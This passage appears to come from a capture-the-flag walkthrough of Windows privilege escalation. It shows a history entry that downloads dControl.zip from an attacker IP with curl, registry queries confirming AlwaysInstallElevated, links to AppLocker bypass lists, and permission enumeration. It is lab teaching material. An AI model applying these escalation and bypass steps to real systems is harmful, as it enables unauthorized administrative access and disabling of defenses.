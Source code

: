 All Right we have lot of options to try on. Let's start by exploring the PowerShell History file.
```
C:\temp>type C:\Users\Phoebe\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
curl 10.10.14.9:8000/dControl.zip -o dControl.zip
```

Looks like getting a zip file from `10.10.14.9`. 

### Abusing AlwaysInstallElevated Privilege - AppLocker Bypass

```
“AlwaysInstallElevated” is a setting in Windows policy that permits the Windows Installer packages (.msi files) to be installed with administrative privileges. This configuration can be adjusted through the Group Policy Editor (gpedit.msc). When activated, it enables any user, even those with restricted privileges, to install software with elevated rights. This option is available under both the Computer Configuration and User Configuration sections within the Group Policy.
```

Yeah we can see in the winPEAS that AlwaysInstallElevated is enabled but let's verify it using `req query`
```
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\temp>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

```

It is enabled for Local User and Machine as well. I have had the failed attempt of obtaining the SYSTEM flag using some of the following ways mentioned in the URL below

[AppLocker Bypass using Alternate Data Stream](https://juggernaut-sec.com/applocker-bypass/)

[Ultimate AppLocker Bypass GitHub](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

[A Small Discovery about AppLocker](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

[AppLocker - Putting Data in the Alternate Data Stream AppLocker](https://oddvar.moe/2019/05/29/a-small-discovery-about-applocker/)

One of the thing I was trying to figure out is mention in `AppLocker Bypass using Alternate Data Stream` link is trying to figure out who has what level of access on the folders using `icacls`.
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections # This command is to pull out group policy for AppLocker

icacls "C:\Windows\Temp\*"
```
